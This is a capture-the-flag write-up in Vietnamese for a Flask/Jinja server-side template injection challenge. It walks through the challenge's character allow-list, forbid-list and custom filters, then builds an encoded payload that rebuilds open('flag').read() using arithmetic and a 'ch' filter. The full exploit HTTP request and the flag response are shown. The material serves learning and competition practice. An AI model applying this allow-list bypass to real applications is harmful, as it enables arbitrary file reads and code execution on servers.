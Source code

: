 # super-secure-translation-implementation challenge

Khi mình làm đến challenge này thì thời gian cuộc thi cũng sắp hết. Đến khi kết thúc mình vẫn chưa giải ra, server vẫn chưa đóng nên mình vẫn cố giải quyết nó vì đây là thử thách liên quan đến SSTI
flask/jinja.

## Recon
Thử thách cung cấp một file docker có các routes như sau:
```
@server.route("/") => app.py 
@server.route("/<path>") => app.py if the resource is nonexistent
@server.route("/secure_translate/") => print(f"Payload parsed: {payload}") - payload parameter is user controlled input. Vulnerable to SSTI.
```
File docker cho thấy rằng tất cả các file đều nằm trong thư mục gốc của web, vì vậy chỉ cần điều hướng đến trực tiếp thông qua trình duyệt.

Trong `/check.py` có một allowList được sử dụng cho payload

`allowList = ["b", "c", "d", "e", "h", "l", "o", "r", "u", "1", "4", "6", "*", "(", ")", "-", "+", "'", "|", "{", "}"]
`
Do đó sử dụng một trong các kí tự không có trong list sẽ gây ra lỗi.

## Filter

1. Ngoài ra ứng dụng còn có bộ lọc jinja tùy chỉnh:

```
# Add filters to the jinja environment to add string
# manipulation capabilities
server.jinja_env.filters["u"] = uppercase
server.jinja_env.filters["l"] = lowercase
server.jinja_env.filters["b64d"] = b64d
server.jinja_env.filters["order"] = order
server.jinja_env.filters["ch"] = character
server.jinja_env.filters["e"] = e
```

2. Thêm một số chuỗi khác trong blacklist

Trong `/filter.py` thêm một bộ lọc khác bằng cách đưa vào blacklist một số strings được chuyển đến eval: 
```
forbidlist = [" ", "=", ";", "\n", ".globals", "exec"]
```

Ngoài ra, 4 ký tự đầu tiên không thể là "open" và "eval": 

```
if x[0:4] == "open" or x[0:4] == "eval":
  return "Not That Easy ;)"
```
Ứng dụng chỉ cho phép tối đa 161 kí tự, nhiều thế nên thôi tạm bỏ qua.

## Exploitation

Chỉ sử dụng các ký tự trong danh sách cho phép là không đủ để tạo ra payload khai thác, 
vì vậy phải làm thế nào để mở rộng bảng chữ cái của mình bằng cách sử dụng số học cơ bản và bộ lọc jinja để chuyển đổi chuỗi.
Trong jinja các biến có thể được sửa đổi bằng bộ lọc . Các bộ lọc được tách ra khỏi biến bởi một ký hiệu ống ( | ) và có thể có các đối số tùy chọn trong dấu ngoặc đơn. 
Nhiều bộ lọc có thể được xâu chuỗi. Đầu ra của một bộ lọc là áp dụng cho tiếp theo. 

Ví dụ, {{ name|striptags|title }}sẽ xóa tất cả các thẻ HTML khỏi biến name và title-case và đầu ra sẽ xử lí như sau ( title(striptags(name))).

Trong python 'ch' filter trả về một kí tự dựa trên số ascii

```
>>> print(chr(103))
g
```
Trong thử thách này chỉ sử dụng được các chữ cái trong allowlist là : 1, 4, 6. Nhưng như thế là đủ vì mình có thể cộng trừ các số để thành một số phù hợp.

Payload của mình có dạng: `{{\ropen('flag').read()}}` (`/n` cũng khả thi)

tương đương với: 
```
{{((6%2b6)|ch%2b'o'%2b(111%2b1)|ch%2b'e'%2b(111-1)|ch%2b'("'%2b(46%2b1)|ch%2b(61%2b41)|ch%2b'l'%2b(111-14)|ch%2b(61%2b41%2b1)|ch%2b'"'%2b')'%2b46|ch%2b're'%2b(111-14)|ch%2b'd()')|e}}
```

Gửi requests và nhận được flag trong phần reponse:

```
GET /secure_translate/?payload={{((6%2b6)|ch%2b'o'%2b(111%2b1)|ch%2b'e'%2b(111-1)|ch%2b'("'%2b(46%2b1)|ch%2b(61%2b41)|ch%2b'l'%2b(111-14)|ch%2b(61%2b41%2b1)|ch%2b'"'%2b')'%2b46|ch%2b're'%2b(111-14)|ch%2b'd()')|e}} HTTP/2

Host: super-secure-translation-implementation.chals.damctf.xyz

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Dnt: 1

Upgrade-Insecure-Requests: 1

Sec-Gpc: 1

Te: trailers

.
.
.

HTTP/2 200 OK

Content-Type: text/html; charset=utf-8

Date: Tue, 09 Nov 2021 16:01:30 GMT

Server: gunicorn

Content-Length: 744

   <code>
   
      <p>dam{p4infu1_all0wl1st_w3ll_don3}
      
</p><a href="/">Take Me Home</a>

    </code>
```


Ref : [jinja filter](https://jinja.palletsprojects.com/en/3.0.x/templates/#filters)


